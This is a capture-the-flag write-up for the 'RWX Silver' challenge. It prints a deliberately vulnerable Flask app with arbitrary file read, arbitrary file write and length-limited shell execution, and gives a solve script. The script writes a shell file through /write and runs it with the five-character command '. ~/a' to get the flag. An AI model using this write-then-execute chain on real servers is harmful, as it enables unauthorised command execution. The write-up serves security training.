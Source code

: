# RWX Silver

The challenge is running a flask application with this backend:

```py
from flask import Flask, request, send_file
import subprocess

app = Flask(__name__)

@app.route('/read')
def read():
    filename = request.args.get('filename', '')
    try:
        return send_file(filename)
    except Exception as e:
        return str(e), 400

@app.route('/write', methods=['POST'])
def write():
    filename = request.args.get('filename', '')
    content = request.get_data()
    try:
        with open(filename, 'wb') as f:
            f.write(content)
        return 'OK'
    except Exception as e:
        return str(e), 400

@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 5:
        return 'Command too long', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=6664)
```

We can also find a binary on the server called `would`, which has this source code:

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    char full_cmd[256] = {0}; 
    for (int i = 1; i < argc; i++) {
        strncat(full_cmd, argv[i], sizeof(full_cmd) - strlen(full_cmd) - 1);
        if (i < argc - 1) strncat(full_cmd, " ", sizeof(full_cmd) - strlen(full_cmd) - 1);
    }

    if (strstr(full_cmd, "you be so kind to provide me with a flag")) {
        FILE *flag = fopen("/flag.txt", "r");
        if (flag) {
            char buffer[1024];
            while (fgets(buffer, sizeof(buffer), flag)) {
                printf("%s", buffer);
            }
            fclose(flag);
            return 0;
        }
    }

    printf("Invalid usage: %s\n", full_cmd);
    return 1;
}
```

So basically we can do 3 things:
1. The /read endpoint allows us to read any file on the server
2. The /write endpoint allows us to write to any file on the server
3. The /exec endpoint allows us to execute commands, but they're limited to 5 characters

Our idea is to first upload a file wich will run the would command so we get the flag, and then execute it in a command of 5 or less characters. We can do it with: `. ~/a`.

## solve.py

```py
import requests

url = "https://d932b27e61431798547a8ecf5ca70508-57588.inst2.chal-kalmarc.tf"

res = requests.post(f"{url}/write", params={'filename': '/home/user/a'}, data=b'/would "you be so kind to provide me with a flag"')
print("Write response:", res.text)
res = requests.get(f"{url}/exec", params={'cmd': '. ~/a'})
print("Flag:", res.text)
```
